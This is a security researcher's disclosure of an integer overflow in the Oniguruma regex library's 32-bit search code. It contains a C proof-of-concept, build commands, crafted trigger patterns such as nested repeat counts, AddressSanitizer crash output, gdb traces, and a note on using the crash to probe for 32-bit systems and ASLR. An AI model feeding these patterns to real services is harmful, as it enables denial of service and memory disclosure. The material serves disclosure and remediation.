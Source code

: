 # Integer overflow in Oniguruma
An integer overflow in the search_in_range function in regexec.c in Oniguruma 6.x before 6.9.4_rc2 leads to an out-of-bounds read, in which the offset of this read is under the control of an attacker. (This only affects the 32-bit compiled version). Remote attackers can cause a denial-of-service or information disclosure, or possibly have unspecified other impact, via a crafted regular expression.

**Researcher: ManhND of The Tarantula Team, VinCSS (a member of Vingroup)**
## What is Oniguruma
Oniguruma by K. Kosako is a BSD licensed regular expression library that supports a variety of character encodings. The Ruby programming language, in version 1.9, as well as PHP's multi-byte string module (since PHP5), use Oniguruma as their regular expression engine. It is also used in products such as Atom, GyazMail Take Command Console, Tera Term, TextMate, Sublime Text and SubEthaEdit.
## Proof of Concept
Following is a PoC in C. It receives the first argument as the pattern and 2th argument as the string to be matched.

<details>
  <summary>
    <b>Show PoC code</b>
  </summary>
  
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include "oniguruma.h"

static int
search(regex_t* reg, unsigned char* str, unsigned char* end)
{
  int r;
  unsigned char *start, *range;
  OnigRegion *region;

  region = onig_region_new();

  start = str;
  range = end;
  r = onig_search(reg, str, end, start, range, region, ONIG_OPTION_NONE);
  if (r >= 0 ) {
    int i;

    fprintf(stdout, "match at %d  (%s)\n", r,
            ONIGENC_NAME(onig_get_encoding(reg)));
    for (i = 0; i < region->num_regs; i++) {
      fprintf(stdout, "%d: (%d-%d)\n", i, region->beg[i], region->end[i]);
    }
  }
  else if (r == ONIG_MISMATCH) {
    fprintf(stdout, "search fail (%s)\n",
            ONIGENC_NAME(onig_get_encoding(reg)));
  }
  else { /* error */
    char s[ONIG_MAX_ERROR_MESSAGE_LEN];
    onig_error_code_to_str((UChar* )s, r);
    fprintf(stdout, "ERROR: %s\n", s);
    fprintf(stdout, "  (%s)\n", ONIGENC_NAME(onig_get_encoding(reg)));
    
    onig_region_free(region, 1 /* 1:free self, 0:free contents only */);
    return -1;
  }

  onig_region_free(region, 1 /* 1:free self, 0:free contents only */);
  return 0;
}

int main(int argc, char* argv[])
{
  int r;
  regex_t* reg;
  OnigErrorInfo einfo;

  char *pattern = argv[1];
  char *pattern_end = pattern + strlen(pattern);
  OnigEncodingType *enc = ONIG_ENCODING_ASCII;

  char* str = argv[2];
  char* str_end = str+strlen(str);

  onig_initialize(&enc, 1);
  r = onig_new(&reg, (unsigned char *)pattern, (unsigned char *)pattern_end,
               ONIG_OPTION_IGNORECASE, enc, ONIG_SYNTAX_DEFAULT, &einfo);
  if (r != ONIG_NORMAL) {
    char s[ONIG_MAX_ERROR_MESSAGE_LEN];
    onig_error_code_to_str((UChar* )s, r, &einfo);
    fprintf(stdout, "ERROR: %s\n", s);
    onig_end();

    if (r == ONIGERR_PARSER_BUG ||
        r == ONIGERR_STACK_BUG  ||
        r == ONIGERR_UNDEFINED_BYTECODE ||
        r == ONIGERR_UNEXPECTED_BYTECODE) {
      return -2;
    }
    else
      return -1;
  }

  if (onigenc_is_valid_mbc_string(enc, str, str_end) != 0) {
    r = search(reg, str, str_end);
  } else {
    fprintf(stdout, "Invalid string\n");
  }

  onig_free(reg);
  onig_end();
  return 0;
}
```
</details>

Compile Oniguruma and the PoC in 32 bit:
```log
./configure CC=gcc CFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" LDFLAGS="-m32 -O0 -ggdb3 -fsanitize=address" && make
gcc -m32 -fsanitize=address -O0 -I./oniguruma/src -ggdb3 PoC.c ./oniguruma/src/.libs/libonig.a -o PoC
```
To trigger the bug, supply the string "x" and patterns in the format "x{a}{b}0", where a and b are smaller than 100000. For example:
```
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# ./PoC x{50000}{80000}0 x
ASAN:SIGSEGV
=================================================================
==4961==ERROR: AddressSanitizer: SEGV on unknown address 0xee5a5fdb (pc 0x080bf994 bp 0xffef2418 sp 0xffef23e0 T0)
    #0 0x80bf993 in sunday_quick_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4831
    #1 0x80c0685 in forward_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4956
    #2 0x80c2830 in search_in_range /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:5375
    #3 0x80c17f4 in onig_search /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:5168
    #4 0x8048cc4 in search /root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range.c:17
    #5 0x8049536 in main /root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range.c:78
    #6 0xf7049636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)
    #7 0x8048b00  (/root/fuzz/fuzz_oniguruma/poc-dmax-search-in-range+0x8048b00)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/fuzz/fuzz_oniguruma/oniguruma-gcc-asan-32/src/regexec.c:4831 sunday_quick_search
==4961==ABORTING
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma#
```
## Analysis
**Referenced source code version: ca7ddbd858dcdc8322d619cf41ab125a2603a0d4**

The root cause comes from the line regex.c:5365, where an integer overflow occurs:
```C
5360	      sch_range = (UChar* )range;
5361	      if (reg->dmax != 0) {
5362	        if (reg->dmax == INFINITE_LEN)
5363	          sch_range = (UChar* )end;
5364	        else {
5365	          sch_range += reg->dmax;  //// => overflow
5366	          if (sch_range > end) sch_range = (UChar* )end;
5367	        }
5368	      }
```
Integer overflow occurs when reg->dmax gets large enough value. reg->dmax seems to be some distance which is equal to \<number\> in pattern "x{\<number\>}y", where x can be any character, y must be a digit. For example, if provided pattern "a{1000}5", reg->dmax = 1000. See the following gdb log with "./PoC a{1000}5 b":
```log
root@manh-ubuntu16:~/fuzz/fuzz_oniguruma# gdb ./PoC
...
(gdb) b 61 # set breakpoint after onig_new
Breakpoint 1 at 0x804943d: file poc-dmax-search-in-range.c, line 61.
(gdb) r a{1000}0 b
Starting program: /root/fuzz/fuzz_oniguruma/PoC a{1000}0 b
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=3, argv=0xffffd634) at poc-dmax-search-in-range.c:61
warning: Source file is more recent than executable.
61	  if (r != ONIG_NORMAL) {
(gdb) p *reg
$1 = {ops = 0xf5b03760, ocs = 0xf5900be0, ops_curr = 0xf5b037b0, ops_used = 5, 
  ops_alloc = 8, string_pool = 0x0, string_pool_end = 0x0, num_mem = 0, 
  num_repeat = 1, num_empty_check = 0, num_call = 0, capture_history = 0, 
  push_mem_start = 0, push_mem_end = 0, empty_status_mem = 0, 
  stack_pop_level = 0, repeat_range_alloc = 4, repeat_range = 0xf6100f90, 
  enc = 0x8139e00 <OnigEncodingASCII>, options = 1, 
  syntax = 0x8127160 <OnigSyntaxOniguruma>, case_fold_flag = 1073741824, 
  name_table = 0x0, optimize = 2, threshold_len = 1001, anchor = 0, 
  anchor_dmin = 0, anchor_dmax = 0, sub_anchor = 0, exact = 0xf6500430 "0", 
  exact_end = 0xf6500431 "", 
  map = '\002' <repeats 48 times>, "\001", '\002' <repeats 207 times>, 
  map_offset = 1, dmin = 1000, dmax = 1000, extp = 0x0}
(gdb)
```
With patterns in form "x{\<number\>}y", dmax gets the largest value as 100000, because repeat number cannot be larger than 100000 (ONIG_MAX_REPEAT_NUM). However, if we provide patterns in format "x{\<number1\>}{\<number2\>}y", we will have that reg->dmax = number1 * number2. This multiplication is made at the following code (regcomp.c:6157):
```C
6156	      else {
6157	        max = distance_multiply(xo.len.max, qn->upper);    //// => multiply into dmax
6158	      }
```
See the following gdb log with "./PoC a{1000}{2}5 b":
```log
(gdb) r a{1000}{2}5 b
...
Breakpoint 1, main (argc=3, argv=0xffffd634) at poc-dmax-search-in-range.c:61
61	  if (r != ONIG_NORMAL) {
(gdb) p *reg
$3 = {ops = 0xf5b03760, ocs = 0xf5900be0, ops_curr = 0xf5b037b0, ops_used = 5, 
  ops_alloc = 8, string_pool = 0x0, string_pool_end = 0x0, num_mem = 0, 
  num_repeat = 1, num_empty_check = 0, num_call = 0, capture_history = 0, 
  push_mem_start = 0, push_mem_end = 0, empty_status_mem = 0, 
  stack_pop_level = 0, repeat_range_alloc = 4, repeat_range = 0xf6100f90, 
  enc = 0x8139e00 <OnigEncodingASCII>, options = 1, 
  syntax = 0x8127160 <OnigSyntaxOniguruma>, case_fold_flag = 1073741824, 
  name_table = 0x0, optimize = 2, threshold_len = 2001, anchor = 0, 
  anchor_dmin = 0, anchor_dmax = 0, sub_anchor = 0, exact = 0xf6500430 "5", 
  exact_end = 0xf6500431 "", 
  map = '\002' <repeats 53 times>, "\001", '\002' <repeats 202 times>, 
  map_offset = 1, dmin = 2000, dmax = 2000, extp = 0x0}
(gdb)
```
Even more, the repeat number can be nested any times as we want:
```
"x{n1}{n2}...{nk}5" => dmax = n1 * n2 * ... * nk
```
So dmax (an unsigned integer) can be any value in range [0, 0xffffffff), and integer overflow at 
**sch_range += reg->dmax;** is definitely possible. The same applies to reg->dmin.
However, this integer overflow is only for 32 bit version. With 64 bit version, sch_range is 64 bit pointer, and dmax is still unsigned integer, so integer overflow can not happen.

The PoC above gets crashed because in sunday_quick_search, the integer overflow leads to some invalid memory address dereferenced:
```C
while (s < end) {
    p = s;
    t = tail;
    while (*p == *t) {                             // => p points to invalid address
      if (t == target) return (UChar* )p;
      p--; t--;
    }
    if (s + map_offset >= text_end) break;
    s += reg->map[*(s + map_offset)];
  }
```
If ASLR is enabled and if we provide suitable pattern, ASLR sometimes maps valid page at the dereferenced address, sometimes maps no page, so the PoC will sometimes crash, sometimes does not. So this PoC can be used to detect if the target system is 32 bit or 64 bit. And if it is 32 bit, we can detect if ASLR is enabled or not.
## Reference
* https://github.com/kkos/oniguruma/issues/164
* https://en.wikipedia.org/wiki/Oniguruma
